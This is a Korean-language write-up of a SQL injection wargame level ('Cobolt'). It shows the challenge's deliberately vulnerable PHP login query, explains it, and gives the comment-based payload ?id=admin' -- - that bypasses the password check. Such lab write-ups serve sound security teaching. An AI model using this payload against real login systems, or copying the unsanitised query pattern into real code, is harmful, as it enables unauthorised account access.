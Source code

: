 # Lord of SQL Injection No.2 - Cobolt
## 문제 출제 의도
1. SQL Injection을 통해 원하는 값의 SELECT 가능 여부를 확인. 
## 소스 코드 분석
+ 소스 코드  
Cobolt의 소스코드는 다음과 같다.
  ~~~
  <?php
    include "./config.php"; 
    login_chk();
    dbconnect();
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id'] == 'admin') solve("cobolt");
    elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
    highlight_file(__FILE__); 
  ?>
  ~~~
+ 소스 코드 분석 <hr>
    ~~~
    ?php , ?>
    include "./config.php";
    login_chk();
    dbconnect();
    ~~~ 
    - 내용이 php로 작성되었다는 것을 알 수 있다.
    - congig.php라는 분리된 파일을 외부에서 불러와 적용시킨다.
    - login_chk(); 로그인 여부를 확인하는 함수라고 추정할 수 있다.
    - dbconnect();라는 함수는 데이터베이스와 연동하는 함수라고 추정 가능하다.
    ~~~
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    ~~~
    - prob, . , ( , ) 이 받은 id 값에 있으면 No Hack ~_~이 출력된다.
    - prob, . , ( , ) 이 받은 pw 값에 있으면 No Hack ~_~이 출력된다.
    ~~~
     $result = @mysql_fetch_array(mysql_query($query));
    ~~~
    - mysql_fetch_array 인출된 값을 연관배열/숫자형 인덱스 로 저장한다.
    ~~~
    if($result['id'] == 'admin') solve("cobolt");
    elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
    ~~~
    - 만약 입력 받은 아이 값이 admin이면 solve("cobolt")를 출력하고 그렇지 않다면 You are not admin을 출력한다.
## 문제 해결
  + 풀이 방법 <hr>  
  **Get**방식으로 값을 입력받기 때문에 URL 다음에 다음과 같이 쿼리 스트링을 추가하면 된다. 
    ~~~
    ?id=admin' -- -
    ~~~
    그러면 결과적으로 쿼리는 
    ~~~
    select id from prob_cobolt where id='admin'-- -' and pw=md5('')
    ~~~
    이 됨으로 $result['id']에 'admin'이 들어가 문제가 해결된다.